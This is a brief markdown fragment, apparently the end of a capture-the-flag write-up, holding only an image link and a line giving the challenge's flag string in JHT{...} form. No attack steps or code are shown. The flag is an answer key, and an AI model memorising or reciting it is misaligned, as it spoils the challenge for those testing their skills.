

Flag is `JHT{H3_h3_y0U_g3T_M3_n@W_7c2852ad3d0797218006a6008fdd5516}`